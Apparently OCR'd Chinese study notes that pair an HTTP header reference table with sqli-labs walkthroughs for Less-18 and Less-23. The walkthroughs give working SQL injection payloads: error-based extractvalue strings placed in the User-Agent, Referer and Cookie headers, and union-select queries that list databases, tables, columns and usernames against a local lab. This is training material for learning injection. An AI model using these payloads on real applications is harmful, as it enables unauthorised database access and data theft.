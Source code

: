 | If-Range                                             | 浏览器告诉   WEB 服务器，如果我请求的对象没有改变，就把我缺少的部分 给我，如果对象改变了，就把整个对象给我。浏览器通过发送请求对象的 ETag 或者 自己   所知道的最后修改时间给 WEB 服务器，让其判断对象是否改变了。总是跟 Range 头部一 起使用。 |
| Last-Modified                                        | WEB   服务器认为对象的最后修改时间，比如文件的最后修改时间，动 态页面的最后产生时间等等。   例如：Last-Modified：Tue,06May200802:42:43GMT |
| Location                                             | WEB   服务器告诉浏览器，试图访问的对象已经被移到别的位置了，到该头 部 指 定 的 位 置 去 取 。    例 如 ： Location ： <http://i0.sinaimg.cn>   /dy/deco/2008/0528/sinahome_0803_ws_005_text_0.gif |
| Pramga                                               | 主要使用   Pramga:no-cache，相当于 Cache-Control：no-cache。例如： Pragma： no-cache |
| Proxy-Authenticate                                   | 代理服务器响应浏览器，要求其提供代理身份验证信息。    Proxy-Authorization：浏览器响应代理服务器的身份验证请求，提供自己的身份信息。 |
| Range                                                | 浏览器（比如   Flashget 多线程下载时）告诉 WEB 服务器自己想取对象的哪 部分。例如：Range:bytes=1173546 |
| Referer                                              | 浏览器向   WEB 服务器表明自己是从哪个 网页/URL 获得/点击 当前请求中 的网址/URL。例如：Referer：http://www.sina.com/ |
| Server                                               | WEB   服务器表明自己是什么软件及版本等信息。例如：Server：Apache/2.0.61 (Unix) |
| User-Agent                                           | 浏览器表明自己的身份（是哪种浏览器）。例如：User-Agent：Mozilla/5.0   (Windows;U;WindowsNT5.1;zh-CN;rv:1.8.1.14)Gecko/20080404Firefox/2、0、0、14 |
| Transfer-Encoding                                    | WEB   服务器表明自己对本响应消息体（不是消息体里面的对象）作了怎样的编码，   比如是否分块（chunked）。例如：Transfer-Encoding:chunked |
| Vary                                                 | WEB   服务器用该头部的内容告诉 Cache 服务器，在什么条件下才能用本响应所 返回的对象响应后续的请求。   假如源   WEB 服务器在接到第一个请求消息时，其响应消息的 头部为：Content-Encoding:gzip;Vary:Content-Encoding    那么   Cache 服务器会分析后续请求 消息的头部，检查其 Accept-Encoding，是否跟先前响应的 Vary 头部值一致，即是否使用   相同的内容编码方法，这样就可以防止 Cache 服务器用自己 Cache 里面压缩后的实体响应   给不具备解压能力的浏览器。例如：Vary：Accept-Encoding |
| Via                                                  | 列出从客户端到 OCS 或者相反方向的响应经过了哪些代理服务器，他们用什么   协议（和版本）发送的请求。当客户端请求到达第一个代理服务器时，该服务器会在自己发 出的请求里面添 加 Via   头部，并填上自己的相关信息，当下一个代理服务器收到第一个代理服务器的请求时，会在自己发出的请求里面复制前一个代理服务器的请求的 Via 头部，并   把自己的相关信息加到后面，以此类推，当 OCS 收到最后一个代理服务器的请求时，检查 Via 头部，就知道该请求所经过的路由。例如：Via：1.0   236.D0707195.sina.com.cn:80 (squid/2.6.STABLE13) |

 



# Less18 http头注入

| user-agent       | 'and extractvalue(1,concat(0x7e,(select@@version),0x7e))and'1'='1 |
| ---------------- | ------------------------------------------------------------ |
| Referer          | 'and extractvalue(1,concat(0x7e,(select@@basedir),0x7e))and'1'='1 |
| Cookie           | uname=admin1' and extractvalue(1,concat(0x7e,(select@@basedir),0x7e))# |
| Base64处理cookie | uname=base64(admin1' and extractvalue(1,concat(0x7e,(select@@basedir),0x7e))#) |

 

# Less23 过滤注释符

Sql 语句为`$sql="SELECT * FROM users WHERE id='$id' LIMIT0,1";`此处主要是在获取 id 参数时 进行了`#`，`--`注释符号的过滤

1、id=-1，为什么要用-1，因为 sql 语句执行了两个 select 语句，第一个 select 为 id 的选择语 句，第二个为我们构造的 select 语句。只有一个数据可以输出，为了让我们自己构造的数据 可以正常输出，第一个 select 要没有结果，所以-1 或者超过数据库所有数据都可以。 

2、`-1'union select1,@@datadir,’3`，第一个’（单引号）闭合-1，第二个’（单引号）闭合后面 的。这样将查询内容显示在 username 处

3、此 处 可 以 报 错 注 入 ， 延 时 注 入 ， 可 以 利 用 or ‘1’=’1 进 行 闭 合 。 

http://127.0.0.1/sqllib/Less-23/index.php?id=1'or extractvalue(1,concat(0x7e,database())) or '1'='1

| 注入语句                                                     | 数据库语句                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ?id=-1'   union select 1,@@datadir,'3                        | SELECT * FROM users WHERE id='-1'unionselect1,@@datadir,’3’limit0,1 |
| ?id=1'or   extractvalue(1,concat(0x7e,database())) or '1'='1 | extractvalue()进行报错注入。                                 |
| ?id=-1'union select 1,(select group_concat(schema_name)from information_schema.schemata),'3 | 获取数据库                                                   |
| ?id=-1' union   select 1,(select group_concat(table_name) from information_schema.tables   where table_schema='security'),'3 | 查看   security 库数据表                                     |
| ?id=-1'union   select 1,(select group_concat(column_name) from information_schema.columns   where table_name='users'),'3 | 查看   users 表的所有列                                      |
| ?id=-1'union select 1,(select group_concat(username) from security.users limit 0,1),'3 | 获取内容                                                     |
